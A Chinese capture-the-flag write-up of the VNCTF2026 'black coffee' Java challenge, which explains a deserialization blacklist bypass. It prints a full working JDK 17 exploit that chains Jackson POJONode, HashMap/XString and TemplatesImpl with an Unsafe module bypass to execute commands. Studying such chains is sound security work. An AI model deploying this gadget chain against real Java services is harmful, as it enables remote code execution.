






---
title: "VNCTF2026 black coffee"
date: 2026-03-08T12:28:56+08:00
summary: "复现一下java题"
url: "/posts/Java题目之VNCTF2026-black-coffee/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

参考官方wp做一下简单的复现

给了Docker文件

```dock
FROM openjdk:17.0.1-jdk-slim
COPY black-coffee-1.0-SNAPSHOT.jar /app/app.jar
COPY start.sh /start.sh
WORKDIR /app
EXPOSE 8083
ENTRYPOINT ["/bin/bash", "/start.sh"]
```

jdk版本是17，那还涉及到了高版本jdk了

依旧jadx反编译一下

# 代码分析

先看依赖



看到有Jackson，可以打Jackson原生反序列化

封装了一个CoffeeObjectInputStream

```java
package org.example.blackcoffee;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;
import java.util.Iterator;

/* loaded from: black-coffee-1.0-SNAPSHOT.jar:BOOT-INF/classes/org/example/blackcoffee/CoffeeObjectInputStream.class */
public class CoffeeObjectInputStream extends ObjectInputStream {
    private static ArrayList<String> BLACKLIST = new ArrayList<>();

    static {
        BLACKLIST.add("javax.swing");
        BLACKLIST.add("java.security");
    }

    public CoffeeObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        Iterator<String> it = BLACKLIST.iterator();
        while (it.hasNext()) {
            String s = it.next();
            if (desc.getName().startsWith(s)) {
                throw new InvalidClassException("bad for coffee: ", desc.getName());
            }
        }
        return super.resolveClass(desc);
    }
}

```

有两个黑名单，一个是`javax.swing`，限制了EventListenerList触发toString链，另一个是`java.security`，应该是限制了SignedObject二次反序列化触发链

Jackson原生反序列化的链子原先是这样的

```java
触发toString链->
    POJONode#toString()->
        ObjectMapper#writeValueAsString()->
            触发任意类getter方法
```

先看看如何触发toString

需要注意这里的jdk17，高版本触发toString的方法我也总结过 https://wanth3f1ag.top/2026/02/02/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%E9%AB%98%E7%89%88%E6%9C%AC%E8%A7%A6%E5%8F%91toString%E7%9A%84%E5%87%A0%E7%A7%8D%E6%96%B9%E6%B3%95/

这里用HashMap+XString触发toString吧

触发任意getter的话我们还是用 TemplatesImpl 加载字节码吧

# 最终exp

注意，因为高版本反射调用的区别，这里需要在开头做一个unsafe的绕过

```java
package org.example.blackcoffee;

import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.CtNewConstructor;
import org.springframework.aop.framework.AdvisedSupport;
import sun.misc.Unsafe;
import sun.reflect.ReflectionFactory;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;

public class exp {
    public static void main(String[] args) throws Exception {
        bypassModule(exp.class);
        Object proxy = getTemplatesImpl("calc");
        overrideJackson();
        POJONode pojoNode = new POJONode(proxy);

        HashMap hashMap = get_HashMap_XString(pojoNode);
        serialize(hashMap);
        unserialize("poc.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("poc.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        CoffeeObjectInputStream ois = new CoffeeObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
    public static Object getTemplatesImpl(byte[] bytes) throws Exception{
        Object templates = createWithoutConstructor(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"));
        Object transformerFactoryImpl = createWithoutConstructor(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl"));

        ClassPool pool = ClassPool.getDefault();
        byte[] foo = pool.makeClass("Foo").toBytecode();

        setFieldValue(templates, "_name", "whatever");
        setFieldValue(templates, "_sdom", new ThreadLocal());
        setFieldValue(templates, "_tfactory", transformerFactoryImpl);
        setFieldValue(templates, "_bytecodes",  new byte[][] {bytes, foo});

        return getPOJONodeStableProxy(templates);
    }
    public static Object getTemplatesImpl(String cmd) throws Exception{
        bypassModule(Class.forName("javassist.util.proxy.SecurityActions"));
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.addConstructor(
                CtNewConstructor.make("public Evil() {"+
                                "Runtime.getRuntime().exec(\"" + cmd + "\"); }"
                        , ctClass)
        );

        byte[] bytecode = ctClass.toBytecode();
        return getTemplatesImpl(bytecode);
    }
    public static void overrideJackson() throws Exception {
        bypassModule(Class.forName("javassist.util.proxy.SecurityActions"));
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        ctClass.toClass(classLoader, null);
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        return Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
    }
    private static Unsafe getUnsafe() throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) unsafeField.get(null);
        return unsafe;
    }
    public static void bypassModule(Class clazz) throws Exception {
        Unsafe unsafe = getUnsafe();
        long offset = unsafe.objectFieldOffset(clazz.getClass().getDeclaredField("module"));
        unsafe.putObject(clazz, offset, Object.class.getModule());
    }
    //HashMap+XString触发toString
    public static HashMap get_HashMap_XString(Object obj)throws Exception{
        Object xString = createWithoutConstructor(Class.forName("com.sun.org.apache.xpath.internal.objects.XString"));
        setFieldValue(xString,"m_obj","");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xString);
        map1.put("zZ",obj);
        map2.put("zZ", xString);
        HashMap map3 = new HashMap();
        map3.put(map1,1);
        map3.put(map2,2);

        map2.put("yy", obj);
        return map3;
    }
    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws Exception{
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }
    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws Exception {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
    //获取并设置类的字段
    public static void setFieldValue(Object obj, String fieldname, Object value){
        try{
            Field field = getField(obj.getClass(), fieldname);
            if (field == null){
                throw new RuntimeException("field " + fieldname + " not found");
            }
            field.set(obj, value);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }
    //反射获取类字段
    public static Field getField(Class clazz,String fieldName){
        Field field = null;
        try{
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }catch (NoSuchFieldException e){
            if (clazz.getSuperclass() != null){
                field = getField(clazz.getSuperclass(), fieldName);
            }else {
                throw new RuntimeException(e);
            }
        }
        return field;
    }
}

```



# 问题解决

在官方wp中作者提出了几个思考的问题

1. TemplatesImpl 为什么要套一层 JDKDynamicProxy
2. HashMap 构造的时候，yy zZ 这两个键有什么特殊作用吗
3. 仓库里面有个 Util17，他的静态代码块里有个 bypassModule，尝试把这个静态代码块注释掉，看看会发生什么

4. getPOJONode 里面有个 removeMethod 的操作，作用是什么？注释掉看看会发生什么？

一一解答一下

- 第一个问题：http://localhost:4000/2025/12/02/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BJackson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#TemplatesImpl%E9%93%BE%E5%AD%90%E7%9A%84%E4%B8%8D%E7%A8%B3%E5%AE%9A%E6%80%A7
- 第二个问题：

```java
HashMap#readObject() -> XString#equals() -> 任意调#toString() 
```

```java
    //HashMap+XString触发toString
    public static HashMap get_HashMap_XString(Object obj)throws Exception{
        Object xString = createWithoutConstructor(Class.forName("com.sun.org.apache.xpath.internal.objects.XString"));
        setFieldValue(xString,"m_obj","");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", xString);
        map1.put("zZ",obj);
        map2.put("zZ", xString);
        HashMap map3 = new HashMap();
        map3.put(map1,1);
        map3.put(map2,2);

        map2.put("yy", obj);
        return map3;
    }
```

执行完这个函数后的属性赋值是这样的


看到HashMap#readObject方法



这里会循环反序列化HashMap中的键和值，随后调用putVal重新存入HashMap中

根据上面的map3，会先操作map2的第一个键值对`{"zZ":xString对象}`，但是这里的话是直接存进新的HashMap中

然后就是第二个键值对`{"yy":obj对象}`，这里的话会从table中取出之前的第一个键值对赋值为p（可能理解有误）

那么此时就是关键点



因为在java中逻辑运算符的优先级是从左到右的，所以这个if中的`p.hash == hash`是需要满足才能进入后面`key.equals(k)`的逻辑

根据哈希碰撞可以得出，yy和zZ的哈希值的相同的，所以这里能满足条件

在将map2的两个键值对和map1的两个键值对存进去后，他还会存放最外层的键值对



随后因为key是hashMap，所以会调用到其父类的equals方法，里面又会循环比较键值对



这里的话就能调用到`XString#equals(java.lang.Object)`了

这是链子的大致流程，那么其实我们也就可以知道yy和zZ主要是为了满足前面的`p.hash==hash`而做的一个哈希碰撞绕过

- 第三个问题：

https://wanth3f1ag.top/2026/02/01/Java%E4%B9%8BJDK17%E5%BC%BA%E5%B0%81%E8%A3%85-%E9%AB%98%E7%89%88%E6%9C%ACJDK%E5%8F%8D%E5%B0%84%E8%B0%83%E7%94%A8/

其实就是用Unsafe修改类所属module，这样在这个类中调用setAccessible的时候就能绕过高版本的限制

- 第四个问题：在我Jackson原生反序列化文章中也有讲过（博客这两天炸了，写这里的时候没法把链接放进去，自行搜索吧）
